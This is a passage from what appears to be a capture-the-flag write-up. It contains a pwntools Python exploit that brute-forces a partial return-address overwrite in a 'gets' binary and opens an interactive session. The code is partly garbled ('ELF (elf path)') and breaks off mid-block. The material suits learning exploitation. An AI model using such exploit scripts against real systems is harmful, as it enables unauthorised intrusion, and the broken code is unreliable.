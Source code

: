 
We can cover the coverage first and see if the program will crash. After all, it is very likely that the code in the libc library will be executed.


```python

from pwn import *

context.terminal = ['tmux', 'split', '-h']

#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

if args['DEBUG']:

    context.log_level = 'debug'

elfpath = './gets'

context.binary = elfpath



elf = ELF (elf path)
bits = elf.bits





def exp(ip, port):

    for i in range(0x1000):

        if args['REMOTE']:

            p = remote(ip, port)

        else:

            p = process(elfpath, timeout=2)

        # gdb.attach(p)

        try:

            payload = 0x18 * 'a' + p64(0x40059B)

            for _ in range(2):

                payload += 'a' * 8 * 5 + p64(0x40059B)

            payload += 'a' * 8 * 5 + p16(i)

            p.sendline(payload)

            data = p.recv()

            print data

            p.interactive()

            p.close()

        except Exception:
```
